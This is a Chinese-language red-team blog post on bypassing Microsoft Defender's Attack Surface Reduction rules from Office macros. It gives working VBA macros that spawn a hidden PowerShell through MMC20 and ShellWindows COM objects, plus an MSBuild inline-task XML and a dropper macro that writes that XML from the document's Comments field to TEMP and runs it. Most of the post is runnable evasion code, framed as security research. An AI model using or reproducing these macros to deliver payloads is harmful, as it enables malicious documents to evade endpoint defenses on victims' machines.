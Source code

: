 ```yaml
---
title: 红蓝对抗-Office ASR绕过
date: 2022-10-30
categories: [红蓝对抗]
tags: [红蓝对抗, Windows, ASR, Bypass]
---
```


## 0X00 什么是ASR

[Attack Surface Reduction](https://docs.microsoft.com/en-us/windows/security/threat-protection/microsoft-defender-atp/attack-surface-reduction)(**ASR**)是微软推出一组**Windows defender**强化配置，旨在减缓攻击者常用的攻击技术。**ASR**规则在**LUA**中实现，并由**Windows Defender**执行。它们具体如下：

![](https://raw.githubusercontent.com/ring0rl/blog_pic/main/2022-10-30/asr.png)

更加详细的细节可以在这个地方查看[https://learn.microsoft.com/zh-cn/microsoft-365/security/defender-endpoint/attack-surface-reduction-rules-reference?view=o365-worldwide](https://learn.microsoft.com/zh-cn/microsoft-365/security/defender-endpoint/attack-surface-reduction-rules-reference?view=o365-worldwide)(当然也可以点段首的加粗字体跳转)

 这些规则中的许多规则可以组合使用，当然我们可以单独绕过某一规则，但它仍然有可能被另一规则所阻止。本文演示的是在**Office**下的绕过。 

## 0x01 Block Office Processes

这个规则即阻止所有**Office**应用程序创建子进程，这包括**Word**、**Excel**、**PowerPoint**、**OneNote**和**Access**

在我们创建生成宏文档并让他运行**PowerShell** **payload**的时候，一般是下面的代码

```vb
Sub Asr()
    Dim wsh As Object
    Set wsh = CreateObject("WScript.Shell")
    wsh.Run "powershell"
    Set wsh = Nothing
End Sub
```

但是这样容易被**Windows**本身的**defender**发现并把他无情的查杀。

![](https://raw.githubusercontent.com/ring0rl/blog_pic/main/2022-10-30/defender.png)

![](https://raw.githubusercontent.com/ring0rl/blog_pic/main/2022-10-30/defender2.png)

## 0x02  COM Bypass

解决这个问题的一种方法是使用**COM**，我们可以直接从**VBA**实例化一个**COM**对象来达到绕过ASR的查杀的目的。因此我们可以考虑利用那些我们知道会导致代码执行的对象。然而并不是每个**COM**对象都可以进行代码执行，只有设置**LocalServer32**，以便进程具有不是**Office**应用程序的父进程才可以。例如，**MMC20.Application**对象会使用**mmc.exe**作为父进程，而**ShellWindows**和**ShellBrowserWindow**的**ShellExecute**方法都将使用**explorer.exe** 作为父进程。
下面是一个使用**MMC20**的方法： 

```vb
Sub Asr()
    Dim mmc As Object
    Set mmc = CreateObject("MMC20.Application")
    mmc.Document.ActiveView.ExecuteShellCommand "powershell", "", "", "7"
    Set mmc = Nothing
End Sub
```

**mmc.exe**会马上关闭，从而生成没有父进程的**PowerShell**

![](https://raw.githubusercontent.com/ring0rl/blog_pic/main/2022-10-30/ps.png)

下面是使用**ShellWindows**的方法：

```vb
Sub Asr()
    Dim com As Object
    Set com = GetObject("new:9BA05972-F6A8-11CF-A442-00A0C90A8F39")
    com.Item.Document.Application.ShellExecute "powershell", "", "", Null, 0
    Set com = Nothing
End Sub
```

与之前的相比，这个会生成一个隐藏的**PowerShell**进程，并且它将会作为**explorer.exe**的子进程运行。就之前的方法来说，这种方法提高了隐蔽性。

![](https://raw.githubusercontent.com/ring0rl/blog_pic/main/2022-10-30/ps2.png)

## 0x03  LOLBAS

ASR规则实际上是基于某种黑名单的来实现的，我们可以尝试打开一个记事本来验证我们的猜想。

![](https://raw.githubusercontent.com/ring0rl/blog_pic/main/2022-10-30/notepad.png)

**Windows defender**没有拦截，所以我们上述的想法成立。

因此我们可以大胆猜测这里可能会有使用基于命令行的执行的办法，笔者在这里使用了[LOLBAS项目](https://lolbas-project.github.io/#)，经过简单的测试，发现**[MSBuild](https://lolbas-project.github.io/lolbas/Binaries/Msbuild/)**没有被拦截(其他的可以自行测试)。

[MSBuild](https://lolbas-project.github.io/lolbas/Binaries/Msbuild/)可以从.xml或.csproj文件执行内联C#代码。可以在这里去查看**MSBuild**的结构[[MSBuild 项目文件架构引用 - MSBuild | Microsoft Learn](https://learn.microsoft.com/zh-cn/visualstudio/msbuild/msbuild-project-file-schema-reference?view=vs-2022)]

我们可以通过以下方法去实现：

```xml
<Project ToolsVersion="4.0" xmlns="http://schemas.microsoft.com/developer/msbuild/2003">
<Target Name="MSBuild">
<ASRSucks /> 
</Target> 
<UsingTask
  TaskName="ASRSucks"
  TaskFactory="CodeTaskFactory"
  AssemblyFile="C:\Windows\Microsoft.Net\Framework64\v4.0.30319\Microsoft.Build.Tasks.v4.0.dll" >
  <Task>
    <Code Type="Class" Language="cs">
    <![CDATA[
      using System;
      using Microsoft.Build.Framework;
      using Microsoft.Build.Utilities;

      public class ASRSucks : Task, ITask
      {         
        public override bool Execute()
        {
            Console.WriteLine("tested by 二两");
            return true;
        } 
      }     
    ]]>
    </Code>
  </Task>
 </UsingTask>
</Project>
```

我们可以通过这种方式去运行

```
C:\Windows\Microsoft.NET\Framework64\v4.0.30319\msbuild.exe test.xml
```

![](https://raw.githubusercontent.com/ring0rl/blog_pic/main/2022-10-30/xml.png)

那么接下来就是怎么去利用word宏去执行我们的恶意代码，我们可以将xml提前放在电脑的某个位置(例如temp目录，然后通过宏执行)

```xml
<Project ToolsVersion="4.0" xmlns="http://schemas.microsoft.com/developer/msbuild/2003">
<Target Name="MSBuild">
<ASRSucks /> 
</Target> 
<UsingTask
  TaskName="ASRSucks"
  TaskFactory="CodeTaskFactory"
  AssemblyFile="C:\Windows\Microsoft.Net\Framework64\v4.0.30319\Microsoft.Build.Tasks.v4.0.dll" >
  <Task>
    <Code Type="Class" Language="cs">
    <![CDATA[
      using System.Diagnostics;
      using Microsoft.Build.Framework;
      using Microsoft.Build.Utilities;

      public class ASRSucks : Task, ITask
      {         
        public override bool Execute()
        {
            Process.Start("powershell");
            return true;
        } 
      }     
    ]]>
    </Code>
  </Task>
 </UsingTask>
</Project>
```

```vb
Sub Asr()
    Dim comment As String
    Dim wsh As Object
    Dim temp As String
    Dim command As String
    
    temp = LCase(Environ("TEMP"))
    comment = ActiveDocument.BuiltInDocumentProperties("Comments").Value
    Set wsh = CreateObject("WScript.Shell")
    command = "C:\Windows\Microsoft.NET\Framework64\v4.0.30319\MSBuild.exe " & temp & "\test.xml"
    wsh.Run command
End Sub

```

![](https://raw.githubusercontent.com/ring0rl/blog_pic/main/2022-10-30/ps3.png)

当然，这些代码会一直保持在temp目录下面，我们可以增加一点东西把它删除

```vb
Sub Asr()
    Dim comment As String
    Dim fSo As Object
    Dim dropper As Object
    Dim wsh As Object
    Dim temp As String
    Dim command As String
    
    temp = LCase(Environ("TEMP"))
    
    Set fSo = CreateObject("Scripting.FileSystemObject")
    Set dropper = fSo.CreateTextFile(temp & "\test.xml", True)
    
    comment = ActiveDocument.BuiltInDocumentProperties("Comments").Value
    
    dropper.WriteLine comment
    dropper.Close
    
    Set wsh = CreateObject("WScript.Shell")
    
    command = "C:\Windows\Microsoft.NET\Framework64\v4.0.30319\MSBuild.exe " & temp & "\test.xml"
    
    wsh.Run command
    
    Set fSo = Nothing
    Set dropper = Nothing
    Set wsh = Nothing
End Sub
```

![](https://raw.githubusercontent.com/ring0rl/blog_pic/main/2022-10-30/res.png)

## 0x04 小结

本文介绍了在ASR规则下，Office在执行宏中的绕过。当然以上有些方法在不同版本的Windows中处理生成也会有所不同，具体的不同可以去自行测试。

### 注：本文仅用于安全研究和学习之用